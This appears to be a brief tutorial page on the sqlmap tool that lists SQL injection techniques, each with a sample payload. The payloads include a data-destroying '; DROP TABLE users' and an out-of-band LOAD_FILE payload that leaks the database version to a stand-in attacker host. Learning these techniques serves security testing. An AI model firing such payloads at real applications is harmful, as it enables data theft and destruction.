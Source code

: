 # Overview

An open-source tool written in Python which automates the process of detecting and exploiting SQL injection.

```sh
sqlmap -u 'http://webpage.com/page.php?id=1'
```

Techniques suported by SQLMap:
- Boolean-based blind
- Error-based
- Union query-based
- Stacked queries
- Time-based blind
- Inline queries

**Boolean-based blind SQLi**
```sql
AND 1=1
```

is considered as the most common SQLi type in web apps.

**Error-based**
```sql
AND GTID_SUBSET(@@version,0)
```

considered as faster than all other types, except UNION-query-based, because it can tetrieve a limited amount of data "chunks" through each request.

**Union query-based**
```sql
UNION ALL SELECT 1,@@version,3
```

is considered the fastest - the attacker can pull the whole database table of interest with a single request.

**Stacked queries**
```sql
; DROP TABLE users
```

**Time-based blind SQLi**
```sql
AND 1=IF(2>1,SLEEP(5),0)
```

is considerably slower than the boolean-blind SQLi, since queries resulting in TRUE would delay the server response.

**Inline queries**
```sql
SELECT (SELECT @@version) from
```

Not so common, it needs the vulnerable web app to be written in a certain way.

**Out-of-band SQLi**
```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

The most advanced types of SQLi, used when other types are unsupported or too slow.

